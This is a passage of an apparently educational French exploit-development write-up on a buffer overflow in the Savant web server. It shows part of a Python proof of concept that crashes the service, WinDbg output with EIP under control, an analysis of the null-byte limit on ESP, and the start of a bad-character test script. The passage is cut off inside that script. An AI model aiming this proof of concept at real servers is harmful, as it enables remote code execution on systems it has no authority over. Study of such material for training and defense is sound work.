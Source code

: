 ```py
  s.send(buf)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```

Si on s'attache au service avec WinDbg et qu'on exécute cette preuve de concept, on obtient le résultat suivant :

```powershell
0:009> g
(1618.dbc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Savant\Savant.exe
eax=ffffffff ebx=017d5778 ecx=f1d59770 edx=00000000 esi=017d5778 edi=0041703c
eip=41414141 esp=045fea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
41414141 ??              ???
```

À première vue c'est un dépassement de tampon classique avec contrôle sur `EIP`. Après analyse ce n'est pas le cas :

- Dans les dépassements de tampon classique, le registre `ESP` pointe sur notre *buffer* qui va stocker notre *shellcode*
- Le buffer réécrirait `EIP` avec `JMP ESP` qui redirigerait le flot d'exécution

Si on analyse le contenu de `ESP` on se rend compte qu'il ne contient que trois *bytes* de notre *shellcode* :

```powershell
0:002> dds @esp L5
045fea2c  00414141 Savant+0x14141           # Seulement 3x `41`
045fea30  045fea84
045fea34  0041703c Savant+0x1703c
```

Notre *buffer* est traité comme un *string* en mémoire et fini donc par `00` :

```powershell
0:004> dds @esp L2
0470ea2c  00414141 Savant+0x14141
0470ea30  0470ea84
```

### Identifier les mauvais caractères

On modifie la preuve de concept afin d'inclure l'ensemble des caractères possible :

```py
#!/usr/bin/python                                                                                                           
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  badchars = (
    b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
```